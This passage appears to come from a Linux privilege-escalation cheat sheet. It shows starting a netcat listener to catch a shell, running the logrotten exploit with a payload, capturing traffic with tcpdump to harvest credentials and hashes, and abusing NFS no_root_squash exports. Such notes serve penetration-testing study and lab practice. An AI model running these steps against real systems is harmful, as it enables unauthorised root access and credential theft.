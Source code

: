 ### Start Listener
```bash
$ nc -nlvp 9001
```

### Run Exploit
```bash
$ ./logrotten -p ./payload /tmp/tmp.log
```

---

# 🛠️ Miscellaneous Privilege Escalation Techniques

## 📡 Passive Traffic Capture

Unprivileged users may capture network traffic if `tcpdump` is installed. This can expose sensitive data such as:

- Cleartext credentials from protocols like HTTP, FTP, POP, IMAP, Telnet, SMTP
- Credit card numbers, SNMP community strings
- Hashes (Net-NTLMv2, SMBv2, Kerberos) for offline brute-force attacks

**Tools to analyze captured traffic:**
- `net-creds`
- `PCredz`

## 📁 Weak NFS Privileges

NFS (Network File System) allows remote access to shared directories. It operates over TCP/UDP port `2049`.

### 🔍 Discovering NFS Shares
```bash
showmount -e <NFS-IP>
```

**Example Output:**
```
Export list for 10.129.2.12:
/tmp             *
/var/nfs/general *
```

### 🔧 NFS Export Options
| Option         | Description |
|----------------|-------------|
| `root_squash`  | Maps root to `nfsnobody`, preventing SUID uploads |
| `no_root_squash` | Allows remote root to create files as root, enabling SUID binaries |
